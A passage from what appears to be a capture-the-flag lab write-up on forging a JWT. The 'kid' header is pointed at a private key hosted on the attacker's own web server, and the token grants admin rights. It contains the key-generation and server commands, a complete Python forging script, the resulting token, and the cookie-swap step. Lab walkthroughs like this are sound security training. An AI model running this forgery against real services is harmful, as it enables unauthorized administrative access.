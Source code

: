 ### Step 1) Create our own private key

{% highlight bash %}
$ openssl genrsa -out myprivatekey.pem 512              
Generating RSA private key, 512 bit long modulus (2 primes)
{% endhighlight %}

### Step 2) Set up a web server hosting the private key

{% highlight bash %}
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
{% endhighlight %}

### Step 3) Use the private key to sign our own jwt.  
Note the changes to the kid, username, and admin_cap variables.
We chose the username to be admin, because we found admin to be a valid account during web footprinting.
### makeJWT.py (python 3)
{% highlight python%}
import rsa
import base64


def base64urlEncode(x):
    return base64.urlsafe_b64encode(x).decode('ascii').replace('=','')

decHeader =b'{"typ":"JWT","alg":"RS256","kid":"http://10.10.14.12/myprivatekey.pem"}'
decPayload =b'{"username":"admin","email":"test123@test.htb","admin_cap":true}'
jwtHeader=base64urlEncode(decHeader)
jwtPayload=base64urlEncode(decPayload)

jwt=jwtHeader+"."+jwtPayload

with open('myprivatekey.pem', mode='rb') as privatefile:
    keydata = privatefile.read()
privkey=rsa.PrivateKey.load_pkcs1(keydata)

jwtSignature=base64urlEncode(rsa.sign(jwt.encode(), privkey, 'SHA-256'))
jwt=jwt+"."+jwtSignature
print(jwt)
{% endhighlight %}

Run makeJWT.py to generate our jwt.

{% highlight bash %}
$ python3 makeJWT.py
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly8xMC4xMC4xNC4xMi9teXByaXZhdGVrZXkucGVtIn0.eyJ1c2VybmFtZSI6ImFkbWluIiwiZW1haWwiOiJ0ZXN0MTIzQHRlc3QuaHRiIiwiYWRtaW5fY2FwIjp0cnVlfQ.WjMZ8nsFL4dRuLZTHer90tgwpBFTCI3Kt6EQcvzamCZ2qh1Mx0eu3Kq9WrgegBRmiUgDNOYO3WQ7d2Io-tnGuQ
{% endhighlight %}

Open cookie manager in the web browser and paste in our newly created jwt in place of our old jwt.  Cookie manager is a firefox add on. 
